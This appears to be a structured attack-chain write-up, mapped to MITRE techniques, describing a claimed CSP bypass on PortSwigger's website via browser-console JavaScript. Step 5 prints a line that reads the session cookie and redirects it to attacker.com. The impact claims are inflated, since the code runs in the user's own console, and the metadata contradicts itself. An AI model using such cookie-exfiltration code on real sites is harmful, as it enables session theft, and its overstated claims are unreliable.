

---
tags:
  - csp-bypass
  - javascript-injection
  - session-exfiltration
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/Browser-Developer-Console]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Target-and-Prepare-Console]]'
  - '[[procedures/Inject-Dynamic-Image-for-CSP-Bypass]]'
  - '[[procedures/Exfiltrate-Session-via-Open-Redirect]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:30:17.968Z'
description: >-
  Multi-stage attack exploiting CSP misconfiguration on PortSwigger's website to
  dynamically load external images and exfiltrate session cookies via open
  redirect.
skill_level: intermediate
impact_level: high
id: fef9801d-6cf1-461f-b682-bb4220054335
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# CSP Bypass via Dynamic Image Injection and Open Redirect for Session Exfiltration

Multi-stage attack chain demonstrating exploitation of a Content Security Policy (CSP) misconfiguration on https://portswigger.net/, allowing dynamic JavaScript injection to load external images and perform open redirects for session cookie exfiltration. This builds on a prior CSP bypass report by escalating to potential session hijacking, though impact is debated as static img tags remain blocked.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Browser-Developer-Console]]

### Target Environment

- Web platform
- Access to https://portswigger.net/
- No specific ports or services required beyond standard HTTPS (443)

### Initial Access Requirements

- Valid browser session (no credentials needed for public site)
- Network access to the target website
- Prior knowledge of CSP configuration from report #2279346

## Detailed Attack Procedures

### Step 1: Navigate to Target Website
procedure: [[procedures/Access-Target-and-Prepare-Console]]

**Objective**: Gain initial access to the vulnerable site and prepare for JavaScript injection.

**Instructions**: Open a web browser and navigate to the target URL. This establishes the session context where CSP is applied.

**Expected Output**: The PortSwigger homepage loads successfully.

**Success Indicators**:
- Page renders without errors
- Browser console is accessible

### Step 2: Open Browser Developer Console
procedure: [[procedures/Access-Target-and-Prepare-Console]]

**Objective**: Prepare the environment for executing JavaScript payloads to test CSP directives.

**Instructions**: Right-click on the page and select "Inspect" or use keyboard shortcut (F12 or Ctrl+Shift+I), then switch to the Console tab.

**Expected Output**: Console panel opens, ready for command input.

**Success Indicators**:
- No console errors on page load
- Console tab active

### Step 3: Inject Dynamic Image Creation Script
procedure: [[procedures/Inject-Dynamic-Image-for-CSP-Bypass]]

**Objective**: Demonstrate CSP bypass by dynamically creating and loading an external image, exploiting the lack of img-src directives.

**Instructions**: In the console, execute the following JavaScript using [[commands/create-dynamic-img-element]] to create an img element, set its source to an external URL, clear the body, and append the image:

```javascript
var demo=document.createElement("img"); demo.src="https://i.ytimg.com/vi/0vxCFIGCqnI/maxresdefault.jpg"; document.body.innerHTML=""; demo.width="1000"; demo.height="1000"; document.body.appendChild(demo);
```

**Expected Output**: The external image loads and displays on the page, filling the viewport at 1000x1000 pixels.

**Success Indicators**:
- Image from YouTube URL renders without CSP violation
- No blocking errors in console

### Step 4: Observe the Impact
procedure: [[procedures/Inject-Dynamic-Image-for-CSP-Bypass]]

**Objective**: Verify that the dynamic injection bypasses CSP restrictions on external resources.

**Instructions**: Inspect the page and console for any CSP violation reports. The image should load despite the policy.

**Expected Output**: Image visible; console shows no 'Refused to load' errors for the img src.

**Success Indicators**:
- External resource loads dynamically
- Potential for escalation noted (e.g., to redirects)

### Step 5: Inject Session Exfiltration Script
procedure: [[procedures/Exfiltrate-Session-via-Open-Redirect]]

**Objective**: Escalate the bypass to exfiltrate session cookies via an open redirect to an attacker-controlled domain.

**Instructions**: In the console, execute the following JavaScript using [[commands/exfiltrate-session-redirect]] to parse the session cookie and redirect with it as a query parameter:

```javascript
var sessionid = document.cookie.split('=')[1] + '.'; document.location = 'https://attacker.com/?' + sessionid;
```

**Expected Output**: Browser redirects to https://attacker.com/ with the session ID appended (e.g., ?session.value.).

**Success Indicators**:
- Redirect occurs without CSP block
- Attacker server logs the exfiltrated cookie

## Attack Chain Summary

### Key Achievements

1. Confirmed CSP lacks img-src directive, allowing dynamic external image loads.
2. Demonstrated potential for resource exfiltration via JavaScript.
3. Escalated to session hijacking through open redirect with cookie data.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
